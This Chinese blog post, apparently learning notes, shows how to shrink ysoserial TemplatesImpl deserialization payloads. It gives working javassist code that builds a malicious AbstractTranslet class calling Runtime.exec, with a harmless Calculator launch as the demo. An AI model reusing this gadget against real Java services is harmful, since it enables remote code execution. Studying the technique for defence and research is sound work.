




## 缩小ysoserial payload体积的几个方法

ysoserial中不少payload使用`TemplatesImpl`进行构造，在学习ysoserial的过程中，发现可以通过修改`createTemplatesImpl`方法的一些代码使ysoserial生成的payload更小一些。

先看下ysoserial中createTemplatesImpl方法的主要流程，首先创建一个TemplatesImpl对象，使用javassist开始构造恶意类，首先获取一个ClassPool对象，将`StubTransletPayload`类和`AbstractTranslet`类添加到pool的类加载路径中，然后获取`StubTransletPayload`类，并使用javassist对类进行修改，插入静态代码块，然后将父类设置为`AbstractTranslet`，设置TemplatesImpl对象的`_name`,`_tfactory`,`_bytecodes`字段。

以下测试使用CommonsCollections3生成payload执行`open /Applications/Calculator.app`命令

### 1. 修改_bytecode字段内容

在ysoserial中，_bytecode数组中包含两个元素，一个是用于代码执行的类，另外一个是没有内容的类，跟进`TemplatesImpl`类的`defineTransletClasses`方法。



与命令执行相关的两个重要的字段分别是`this._class`和`this._transletIndex`，这段代码对_bytecode数组中的类进行遍历，如果类的父类是AbstractTranslet类，那么就把_transletIndex设置成对应的index,所以只要恶意类在_bytecode数组中，并且父类是AbstractTranslet即可

于是可以将
```java
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes, ClassFiles.classAsBytes(Foo.class)});
```
修改为以下代码
```java
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes});
```

生成的payload从3562字节缩小到3084字节

### 2. 删除_tfactory字段

ysoserial中对`_tfactory`进行了赋值
```java
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
```
在`TemplatesImpl`类中`_tfactory`字段被transient修饰，是不参与序列化的，所以可以直接删除，既然是不参与序列化的，所以删除之后payload大小不会发生改变

### 3. 修改StubTransletPayload类

StubTransletPayload类代码继承了AbstractTranslet实现序列化接口，并重写了transform方法。



上边提到了恶意类的父类必须是AbstractTranslet，但是生成的类，被转化成了字节码存在了_bytecodes中，所以序列化过程也没有他什么事情，就可以去掉Serializable接口了

StubTransletPayload通过直接extends方式指定父类是AbstractTranslet，为了编译通过就得实现+重写这一堆transform方法，但是实际上在TemplatesImpl类中，只需要类的父类是AbstractTranslet就可以了,只需要保留个类名就可以了

```java
public static class StubTransletPayload  {}
```

生成的payload从到3084字节缩小到2177字节

### 4. 使用javassist创建类

直接使用javassist创建一个类看下会有什么效果
使用
```java
final CtClass clazz = pool.makeClass("StubTransletPayload");
```
代替
```java
pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
...
final CtClass clazz = pool.get(StubTransletPayload.class.getName());
```

生成的payload从到2177字节缩小到1912字节

看下使用写好的StubTransletPayload和使用javassist直接创建类的区别

直接使用StubTransletPayload类



使用javassist直接创建



可以看到constant_pool中少了很多内容

### 最终代码

```java
private static Object createTemplatesImpl() throws IllegalAccessException, InstantiationException, NotFoundException, CannotCompileException, IOException, NoSuchFieldException {
    TemplatesImpl templates = TemplatesImpl.class.newInstance();
    ClassPool classPool = ClassPool.getDefault();
    classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
    CtClass clazz = classPool.makeClass(String.valueOf(System.nanoTime()));
    String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
    clazz.makeClassInitializer().insertAfter(string);
    CtClass superC = classPool.get(AbstractTranslet.class.getName());
    clazz.setSuperclass(superC);
    final byte[] classBytes = clazz.toBytecode();
    Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
    bcField.setAccessible(true);
    bcField.set(templates, new byte[][] {classBytes});
    Field nameField = TemplatesImpl.class.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates, "a");
    clazz.writeFile();
    return templates;
}
```

还可以更小一点，比如用javassist创建类的时候把类名设置成1

遇到的一些小问题:

在测试中分别看了下用静态代码块和构造函数，如果用javassist直接创建类，可以直接用
```java
CtConstructor ctConstructor = new CtConstructor(new CtClass[] {}, clazz);
ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");");
clazz.addConstructor(ctConstructor);
```
添加一个构造器，如果修改已经写好的类，因为对没有显示指定构造方法的类编译器在编译时会自动给加上默认的构造方法，所以不能直接增加这样一个构造方法，需要先删除编译器加上的默认构造方法，或者直接对他进行修改
```java
CtConstructor ctConstructor = clazz.getDeclaredConstructors()[0];
clazz.removeConstructor(ctConstructor);
CtConstructor newCtConstructor = new CtConstructor(new CtClass[] {}, clazz);
newCtConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");");
clazz.addConstructor(newCtConstructor);
```
或
```java
CtConstructor ctConstructor = clazz.getDeclaredConstructors()[0];
ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");");
```

学习ysoserial过程中的一些想法吧，虽然把payload缩小点实际也用处不大，了解下万一以后有机会用的到了呢。
